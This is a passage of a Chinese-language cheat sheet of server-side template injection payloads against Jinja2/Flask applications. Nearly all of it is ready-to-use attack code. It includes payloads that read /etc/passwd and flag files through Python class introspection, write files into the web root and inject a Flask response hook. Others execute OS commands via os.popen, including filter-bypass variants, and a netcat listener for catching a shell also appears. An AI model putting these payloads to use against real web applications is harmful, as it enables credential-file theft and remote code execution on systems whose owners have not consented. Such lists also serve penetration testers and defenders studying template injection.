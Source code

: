 ```python
# ''.__class__.__mro__[2].__subclasses__()[40] = 文件类
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### Jinja2 - 写入远程文件

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Jinja2 - 远程命令执行

监听连接

```bash
nc -lnvp 8000
```

#### Jinja2 - 强制盲注RCE输出

您可以导入Flask函数以从易受攻击的页面返回输出。

```python
{{
x.__init__.__builtins__.exec("from flask import current_app, after_this_request
@after_this_request
def hook(*args, **kwargs):
    from flask import make_response
    r = make_response('Powned')
    return r
")
}}
```

#### 通过调用os.popen().read()利用SSTI

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

但是当`__builtins__`被过滤时，以下载荷是上下文无关的，除了在jinja2模板对象中外，不需要任何东西：

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

我们可以使用这些来自[@podalirius_](https://twitter.com/podalirius_)的较短载荷：[python-vulnerabilities-code-execution-in-jinja-templates](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/)：

```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
